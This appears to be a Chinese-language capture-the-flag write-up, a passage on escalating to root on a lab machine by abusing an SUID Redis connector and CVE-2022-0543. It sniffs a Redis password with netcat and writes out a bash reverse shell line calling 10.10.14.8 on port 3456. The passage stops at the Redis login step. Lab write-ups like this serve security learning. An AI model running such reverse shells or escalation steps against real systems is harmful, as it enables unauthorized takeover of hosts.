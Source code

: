 成功获得dan_smith用户的权限，在查看用户时，发现了一个奇怪的组
# 提权
查询这个组的suid权限的文件
```
find / -group sysadmin 2>/dev/null
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ccb377df12e4c428a798128af425f4f.png)

找到一个有suid权限的程序，他是root用户创建的，但是我们可以执行

![在这里插入图片描述](https://img-blog.csdnimg.cn/1197c9917bc74ddbada5717b0a8f003e.png)

它已通过redis身份验证，程序本身可能有密码，我们将这个程序下载到kali上分析
```
cd /usr/local/bin/
python3 -m http.server 5555
```
然后去kali上下载这个文件
```
wget http://10.10.11.172:5555/redis_connector_dev
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/6a6a4f7634014eb89c821091fa811d91.png)

我们在本地运行一下这个程序试试

![在这里插入图片描述](https://img-blog.csdnimg.cn/523ae87922384cac908d2034bbe25ca2.png)

它需要访问6379端口，我们用nc开一个试试
```
nc -nvlp 6379
```
运行程序，返回nc查看时，可以发现一个密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/1bd34df302f64889934c893bf54f9031.png)

然后通过google看能不能找到redis存在的漏洞，然后就发现了这篇文章
```
https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/cd2d3756acad4c9fb4791b6a1fae67e2.png)

cve-2022-0543，Redis中的关键Lua沙盒逃逸漏洞，可以造成RCE，我们用这个漏洞试试能不能提权

```
https://github.com/aodsec/CVE-2022-0543
```
可以用这个脚本，也可以手动提权

![在这里插入图片描述](https://img-blog.csdnimg.cn/94a70be9f81448778cd07e0f079ca7cc.png)

我们可以创建一个文件，里面是我们的反向shell，然后让程序执行这个文件，就能拿到root权限了

先去这个网站生成一个bash 的反向shell
```
https://www.revshells.com/
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/002254c597314b26b22dcaa4f7a0a7df.png)
```
echo "/bin/bash -i >& /dev/tcp/10.10.14.8/3456 0>&1" > /home/dan_smith/shell
```
然后使用密码登录redis
```
redis-cli --pass F2WHqJUz2WEz=Gqq
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/9cd541dcd92542a1a5d469173fda6506.png)